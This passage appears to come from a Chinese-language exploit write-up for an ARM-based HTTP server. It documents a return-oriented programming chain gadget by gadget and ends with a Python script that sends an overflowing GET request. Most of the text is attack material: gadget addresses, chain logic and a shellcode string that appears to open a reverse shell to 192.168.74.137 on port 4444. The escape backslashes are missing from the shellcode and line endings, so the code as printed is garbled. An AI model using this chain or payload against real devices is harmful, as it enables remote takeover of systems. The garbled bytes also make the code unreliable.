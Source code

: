 有以下一些可用的（选择理由是r4 r7 r6都可用pop`{`rX。。。`}`控制）

0x000241e0 : mov r2, r4 ; mov r1, r5 ; mov r0, r6 ; blx r7<br>
0x00041d0c : mov r2, r7 ; mov r1, r5 ; ldr r0, [r4, #4] ; bl #0x41ce0 ; mov r2, r6 ; mov r1, #1 ; mov r0, r4 ; blx r5<br>
0x00041d1c : mov r2, r6 ; mov r1, #1 ; mov r0, r4 ; blx r5<br>
0x000450dc : mov r2, r6 ; mov r0, r4 ; blx r1

总算到头了。

所有的目的就是将sp传递到pc，中间用了很多rX来连接，每次连接都需要考虑下一步的跳转；所有数据来自栈，必须通过栈上的数据来控制跳转pop`{`rX….`}`也就是流程。

最后整个shellcode。

一开始跳转到gadget1：

pop `{`r4, r5, r6, r7, pc`}`// 控制r4, r5, r6, r7, pc

pc = 0x400241e0，目的是为了设置r2，其中上一步的r4控制r2，r4-&gt;r2-&gt;r3；r7控制接下来的流程

0x400241e0 : mov r2, r4 ; mov r1, r5 ; mov r0, r6 ; blx r7

r7 = 0x4002e288+0xc,目的是将r2传递到r3,r3之后会用来控制流程（r4-&gt;r2-&gt;r3）；使用栈的数据控制接下来的流程pop `{`r4, pc`}`

0x4002e288 : subs r2, r3, #0 ; bne #0x2e28c ; b #0x2e2ac ; mov r3, r2 ; add r0, r4, r3 ; pop `{`r4, pc`}`

​ mov r3, r2 ; add r0, r4, r3 ; pop `{`r4, pc`}`

pc=pc_2=0x400240f4+0x8 ，目的是将sp传递到r0, sp-&gt;r0-&gt;r5-&gt;pc，最开始的pop控制r6,控制流程

0x400240f4 : beq #0x24190 ; mov r2, #0x18 ; mov r1, #0 ; mov r0, sp ; blx r6

r6 = 0x4005244c+0x8 ,目的是将sp-&gt;r0-&gt;r5-&gt;pc，将r0传递到r5,r3之前已经设置好（r4-&gt;r2-&gt;r3），控制接下来的流程

0x0005244c : add r3, pc, r3 ; ldr r3, [r3] ; mov r5, r0 ; cmp r3, #0 ; mov r4, r1 ; beq #0x52490 ; blx r3

r3 = r2 =r4=0x4004d8d4,sp-&gt;r0-&gt;r5-&gt;pc,大功告成

0x0004d8d4 : mov pc, r5 ; mov r7, #1 ; svc #0 ; mov lr, pc ; bx r5

找的时候可能会有些稍微不清晰，但是心里会有个大致的感觉—就是这个最后能成还是不能成。

```
gadget1=0x40012468

pc = 0x400241e0

r6 = 0x4005244c+0x8

r5 = "AAAA"

r4 = 0x4004d8d4

r7 = 0x4002e288+0xc #0x4002E294

r4_2= "AAAA"

pc_2 = 0x400240f4+0x8

test= "x01x30x8fxe2x13xffx2fxe1x40x40x02x30x01x21x52x40x64x27xb5x37x01xdfx06x1cx0bxa1x4ax70x10x22x02x37x01xdfx30x1cx49x40x3fx27x01xdfx30x1cx01x31x01xdfx30x1cx01x31x01xdfx06xa0x52x40x05xb4x69x46xc2x71x0bx27x01xdfxffxffxffxffx02xaax11x5cxc0xa8x4ax89x2fx62x69x6ex2fx73x68x58"



payload1 =  "GET "+'A'*169 + p32(gadget1) +'AAAA'*4 +p32(r4)+ r5+p32(r6)+p32(r7)+p32(pc) +r4_2+p32(pc_2)+test+" HTTP/1.1rn"+"Host: 1.1.1.1rnrn"

p.send(payload1)
```
